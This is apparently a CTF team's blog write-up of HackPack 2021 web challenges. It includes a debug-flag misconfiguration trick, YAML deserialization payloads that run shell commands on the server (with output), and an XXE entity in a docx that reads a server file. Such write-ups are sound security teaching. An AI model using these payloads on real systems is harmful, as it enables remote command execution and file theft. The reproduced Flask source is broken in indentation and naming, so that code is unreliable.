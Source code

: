 ```yaml
---
date: "2021-04-19T00:00:00Z"
title: HackPack CTF 2021
tags : ["Yaml", "Web", "XXE", "NGINX"]
---
```


# Web Writeups

![](/img/hackpack/solved.png)


Hello there we (fr334aks) took part in hackpack CTF 2021 and ended up solving all the available Web challenges,
here are our writeups for them.


## "N"ot "G"am"I"ng a"N"ymore in "X"mas 

### Challenge

![](/img/hackpack/nginx.png)


### Solution 

- tried a random name as password and used the network tab in dev options to inspect the requests
found a post request with data as `debug=0` changed that to `debug=1`  
as 

![](/img/hackpack/network.png)

and

![](/img/hackpack/hackbar.png)


which revealed the default `nginx.conf` file revealing a hidden directory `/maybehereimportantstuff` ,visiting it we are met with the flag 

![](/img/hackpack/flag1.png)


> Flag : flag{ng1nx_m1sconf1g_c4n_b3_h4rmful}



## Yaml-2-json


### Challenge

![](/img/hackpack/yaml.png)


### Solution 

full writeup for this challenge can be found here from [Saudi](https://twitter.com/trevorsaudi),  [Yaml-2-Json](https://trevorsaudi.medium.com/yaml-2-json-hackpack-ctf-7de28ef0ecff)


instead of repeating what he did i will just share the main.py file here :joy:

having gained RCE on the CTF instance i further deciced to explore a bit further

using the exploit as 

```
flag: !!python/object/apply:subprocess.check_output
       args: [ ls -lah ]
       kwds: { shell: true }
```
i was able to view all the files in the directory 

```
total 36K 
drwxr-xr-x 1 root root 4.0K Apr 14 22:17 .
drwxr-xr-x 1 root root 4.0K Apr 14 22:25 ..
-rw-rw-r-- 1 root root   30 Apr 14 22:16 .env
drwxrwxr-x 6 root root 4.0K Apr 14 22:16 .venv
drwxrwxr-x 2 root root 4.0K Apr 14 22:16 __pycache__
-rw-rw-r-- 1 root root  778 Apr 14 22:16 main.py
-rw-r--r-- 1 root root  204 Dec  6 18:41 prestart.sh
-rw-rw-r-- 1 root root  131 Apr 14 22:16 requirements.txt
drwxrwxr-x 2 root root 4.0K Apr 14 22:16 templates
```

decided to retrieve the source code `main.py`

using 

```
flag: !!python/object/apply:subprocess.check_output
       args: [ cat main.py ]
       kwds: { shell: true }
```

beautified code is below, enjoy your further analysis 


```python
from flask import Flask, render_template, make_response
from flask.globals import request
import yaml
import os
from dotenv import load_dotenv

app = Flask(__name__)
@app.route('', methods = ['GET'])

def index():
    premium = request.cookies.get('premium')
    resp = make_response(render_template("index.html", premium = premium == 'true'))

	if premium is None:
    resp.set_cookie('premium', 'false')

	return resp
@ papp.route('', methods = ['POST'])

def parse():
    load_dotenv()
premium = request.cookies.get('premium')
data = request.form['yaml']
if premium == 'true':
    json = yaml.unsafe_load(data)
else :
    json = yaml.load(data, yaml.BaseLoader)
return render_template("index.html", json = json, premium = premium == 'true')
```

## All about resetting 

### Challenge

![](/img/hackpack/resetting.png)

### solution

- Writeup by Mystik0ri0n [All-about-resetting](https://ctftime.org/writeup/27479)

## Indead V1

### Challenge

![](/img/hackpack/indead1.png)

### solution 

- Writeup by Saudi [indeadv1](https://trevorsaudi.medium.com/indead-hackpack-ctf-1b3878120da5)

- Writeup by Mystik0ri0n [Indead-v1](https://ctftime.org/user/104258)



## Indead V2 

### Challenge 

![](/img/hackpack/indead2.png)
 

interface 

![](/img/hackpack/interface.png)


### Solution 

- This was a interesting challenge where we are to take advantage of a vulnerable docx parser to trigger XXE to file inclusion,
armed with the flag location `/var/www/flag.txt` we can proceed to crack a malicious docx file that retrieves the flag for us when parsed.

started by creating a simple resume.docx file.

![](/img/hackpack/resume.png)

unzipped the file contents and changed the values of document.xml to include our payload as 

![](/img/hackpack/xxe.png)

our modifications to the document included `<!DOCTYPE test [<!ENTITY test SYSTEM 'file:///var/www/flag.txt'>]>`

and also changing our only info in the document to call our payload when parsed

`<w:t xml:space="preserve">&test;</w:t></w:r>`

and then later zipping the contents back before uploading 

```
┌─[@parrot]─[~/Desktop/CTFs/hackpack]
└──╼ $zip resume.docx word/document.xml 
updating: word/document.xml (deflated 59%)
```

uploading the malicous document as our resume gets us the flag 

![](/img/hackpack/flag3.png)

> Flag : flag{XML_is_ancestor_0f_every7hing_do_you_agree_?} 


## Further Reading and references


- [ddosecurity,XXE](https://doddsecurity.com/312/xml-external-entity-injection-xxe-in-opencats-applicant-tracking-system/)

- [hacktricks,nginx](https://book.hacktricks.xyz/pentesting/pentesting-web/nginx)

- [kage,0x00sec.insecure file upload](https://0x00sec.org/t/insecure-file-upload-vulnerability/21448#:~:text=Insecure%20File%20Upload%20vulnerability%20is,system%20likef%20a%20reverse%20shell.&text=Let's%20look%20at%20the%20different,against%20Insecure%20File%20Upload%20vulnerabilities.)

Thank you for your time. 
for any errors and corrections kindly reach me on twitter [@k0imet_](https://twitter.com/k0imet_)